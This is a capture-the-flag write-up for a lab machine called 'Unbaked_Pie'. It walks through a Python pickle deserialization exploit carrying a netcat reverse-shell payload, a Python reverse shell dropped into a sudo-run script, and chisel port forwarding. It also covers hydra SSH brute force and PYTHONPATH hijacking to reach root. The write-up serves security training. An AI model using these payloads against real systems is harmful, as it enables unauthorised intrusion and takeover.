#  __Unbaked_Pie Writeup__


### __First Stage : Enumeration__


So let's start with a nmap scan.

```
# Nmap 7.91 scan initiated Fri Dec 11 11:56:00 2020 as: nmap -sC -T4 -vv -p- -oN nmapscan -Pn 10.10.44.92
Nmap scan report for 10.10.44.92
Host is up, received user-set (0.16s latency).
Scanned at 2020-12-11 11:56:08 IST for 362s
Not shown: 65534 filtered ports
Reason: 65534 no-responses
PORT     STATE SERVICE   REASON
5003/tcp open  filemaker syn-ack

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Dec 11 12:02:10 2020 -- 1 IP address (1 host up) scanned in 371.24 seconds
```


Since only one port is open lets visit it.




So after using burpsuite to intercept the requests , we can find an interesting cookie named __search_cookie__.




If we decode the __search_cookie__ using cyberchef.



I searched for **test** hence the search_cookie has a value of test but why are the dots generated ? 

Maybe the query is being sereialized before sending ?

After some google search I found it is called pickling which is done using python to sereialze objects . 


I found this article : https://davidhamann.de/2020/04/05/exploiting-python-pickle/


### __Second Stage : Initial Access__
So the exploit code is:

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.74.96 1234 >/tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

First we have to test whether this is working or not , hence we can edit the cmd to 

>ping -c 3   \<ip>

And listen for icmp request with

>sudo tcpdump -i tun0 icmp

So lets run the test.py 



Lets put it in the search field and enter 




Hence it is working we can run the real exploit code.


And we get the shell.




And I guess this is a container and we have to escape this in order to get user access .


Use these commands to upgrade shell.


```BASH
python3 -c"import pty;pty.spawn('/bin/bash')"
#then press CTRL-Z 
stty raw -echo ; fg
#press enter two times
export TERM=screen
```

After some searching and tweaking I saw __.bash_history__ file . 




We can see a user **ramsey** and internal ip **172.17.0.1**.

### __Third Stage : Escaping docker to user__

So we need to do  port forwarding .

I am using [chisel](https://github.com/jpillora/chisel) to port forward.

Start a server using :
>./chisel server -p 10000 --reverse

And in the victim machine use:
>./chisel client \<vpn_ip>:10000 R:4444:172.17.0.1:22






Since we dont know the password let brutefoce using hydra

> hydra -l ramsey -P /usr/share/wordlists/rockyou.txt localhost ssh -s 4444




Next we login in using ssh .




### __Fourth Stage : Pivoting from ramsey to oliver__


So if we try 
>sudo -l




We copy vuln.py to another file and delete it .

```BASH
cp vuln.py vuln.py.bak
rm vuln.py
```

We edit the vuln.py to this
```PYTHON
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.74.96",3333))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

We get shell as oliver.

### __Fifth Stage : Oliver to root__ 
And we see what permissions we have.



And the contents of **dockerScript.py**

```PYTHON
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)
```


We have permission to set env so we create a docker.py and add a reverse python shell to this file and execute this command

>sudo PYTHONPATH=/home/oliver /usr/bin/python /opt/dockerScript.py




Now we get a shell.





